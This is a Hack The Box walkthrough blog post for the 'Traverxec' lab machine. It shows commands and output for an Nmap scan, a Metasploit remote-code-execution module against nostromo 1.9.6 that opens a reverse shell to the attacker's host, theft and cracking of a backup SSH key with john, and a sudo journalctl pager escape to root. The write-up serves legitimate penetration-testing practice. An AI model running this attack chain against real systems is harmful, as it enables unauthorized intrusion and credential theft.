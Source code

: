 ```yaml
---
date: 2020-04-15 06:21:35
layout: post
title: "Traverxec Hack The Box Walkthrough"
subtitle:
description: Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills.
image: /assets/img/uploads/traverxec/traverxec.jpg
optimized_image: /assets/img/uploads/traverxec/traverxec.jpg
category: walkthrough
tags: hackthebox boot2root
author:
paginate: false
---
```



Today we will be doing Traverxec from Hack The Box. This box was rated easy and good for beginners to practice penetration testing skills. For the initial foothold we had to exploit a webserver that was vulnerable to remote code execution and get a reverse shell back into our machine. For root, the user David had privilege to execute journalctl as root and we leveraged that to get root in the box. With that said let’s jump in.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open an it is running <i>nostromo 1.9.6</i>. Looking at the port 80, we have a static website with nothing useful.


## Initial Foothold:
Now lets look on searchsploit if we have a vulnerable version of nostromo.

```r
m1m3@kali:~$ searchsploit nostromo

--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Lets use the metasploit for it.

```r
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a tty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type <i>id</i> we get the user of the shell:

```r
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User Shell:

With some enumeration, we can see a nostromo configuration file present at <b>/var/nostromo/conf</b> that reveals a public home directory.

```r
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of <i>/home/david/public_www</i>

```r
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah

ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the <i>protected-file-area</i> I found a <i>backup-ssh-identity-files.tgz</i>. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```r
m1m3@kali:~$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```r
m1m3@kali:~$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```r
david@traverxec:~/bin$ cat server-stats.sh

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run <i>/usr/bin/journalctl</i> with sudo. So I searched in [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using <i>!/bin/bash</i>.

```r
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/kangle">Kanye.</a>